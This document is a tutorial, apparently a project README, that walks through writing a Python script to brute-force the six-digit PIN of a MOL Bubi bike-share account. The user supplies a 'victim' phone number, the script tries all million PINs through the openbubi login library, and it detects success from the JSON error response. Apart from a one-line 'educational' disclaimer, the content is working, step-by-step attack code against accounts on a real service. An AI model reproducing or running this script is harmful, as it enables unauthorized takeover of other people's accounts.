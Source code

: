 # <p align="center">Using for brute force attacks</p>

*Disclaimer: this guide is for educational purposes only. I do not support black-hat hacking, because it is illegal*

## What are we going to do?

We are going to make an algorithm, that tries to login to a MOL Bubi account with every 6-digit password

## Write the program

First of all, make a new Python script in the cloned folder

```bash
mkdir bubiforce && touch bubiforce/bruteforce.py
```

Then import all the necessary modules in the newly created program/script

```python
import sys # for path manipulation
sys.path.append("../") # add openbubi.py's folder to the current path
import openbubi
import json # for converting openbubi output to dictionary
import itertools # for making an iterable object with all the six-digit numbers
import getpass # for getting input from the user without echoing
```

Then get an input from the user about the phone number of the victim

```python
phoneNumber = getpass.getpass("Please enter a phone number: ")
```

Then make a `for` cycle, that iterates over the list of six-digit numbers (using itertools), and tries every possible password for authenticating

```python
# make an iterable object that contains all six-digit numbers, and iterate through that
for i in itertools.product("0123456789", repeat=6):
  # convert the elements of the current tuple to a string
  currentNum = "".join(i)
  # print currentNum out
  print(currentNum)
  # make a new BubiUser instance with the password `currentNum`
  user = openbubi.BubiUser(phoneNumber, currentNum)
  """
  Really long line, but I'll explain it.
  If there is an error while logging in, MOL Bubi returns an error code like this:

  {
  "server_time": 1635867338,
  "error": {
    "code": 1,
    "message": "A felhasználó nem található, vagy a bejelentkezés nem sikerült.",
    "reference": "61815aca3f4fe"
    }
  }

  There is a JSON object, that contains an error key with a value that contains
  another JSON object with the error code, error message, and reference.
  So, if we want to detect login failure, we need to check if there is a key named "error". So we need to:
  1. Convert the output of user.login() to a dictionary
  2. Convert all the keys of this dictionary into a list
  3. Check if the statement 'there is an element in that list called error' is false
  4. If that is false, then we got no errors, and the pin is correct
  """
  if ("error" in list(json.loads(user.info()).keys())) == False: # there is no error
    print(f"Match! The pin is {currentNum}")
    quit() # quit the program

```
